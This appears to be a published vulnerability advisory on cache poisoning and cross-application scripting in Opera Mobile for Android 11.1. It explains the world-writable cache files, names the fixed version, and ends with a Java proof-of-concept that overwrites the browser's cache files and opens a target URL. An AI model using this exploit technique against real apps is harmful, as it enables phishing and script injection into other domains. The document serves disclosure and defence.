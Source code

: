 ```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-09-20' 
alephid: ALEPH-2011007
date: '2011-09-20'
title: 'Opera Mobile for Android Cache Poisoning XAS'
severity: high
product:
    - Opera Mobile for Android
vulnerable:
    - Version 11.1
mitigation: 
    - Install version version 11.1 update 2 or later

references:
    - src: paper
      url: http://blog.watchfire.com/files/advisory-opera-cp-xas.pdf
 
---
```

The Opera Mobile cache files (metadata and data) have insecure file permissions:
* The cache metadata file (dcache4.url) is globally readable and writable as explained in the paper.
* The cache data itself are globally readable and writable as explained in the paper.

Hence a 3rd party application with no permissions may access Opera Mobile's cache, thus break Android's
sandboxing model:

* It may read the cache. 3rd party parsers are publicly available1.
* It may alter the cache with arbitrary data or code, in order to conduct phishing attacks, or execute JavaScript code in the context of an arbitrary domain.

## Proof-of-Concept ##

See paper for how to generate the injected cache entry.
```java
public class CachePoisoningActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState)
    {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        dumpToFilesystem("dcache4.url",
                         "/data/data/com.opera.browser/cache/dcache4.url");
                         
        dumpToFilesystem("poisonedfile",
                         "/data/data/com.opera.browser/cache/g_0000/poisonedfile");
                         
        Intent i = new Intent();
        i.setClassName("com.opera.browser", "com.opera.Opera");
        i.setData(Uri.parse("http://target/"));
        startActivity(i);
    }
    private void dumpToFilesystem(String assetName, String dstPath)
    {
        try {
            InputStream input = getAssets().open(assetName);
            FileOutputStream output = new FileOutputStream(dstPath);
            byte[] buffer = new byte[1024];
            int len = -1;
            while (-1 != (len = input.read(buffer)))
            output.write(buffer, 0, len);
            output.close();
            input.close();
        } catch (IOException e) {}
     
        File f = new File(dstPath);
        f.setReadable(true, false);
        f.setWritable(true, false);
    }
}
```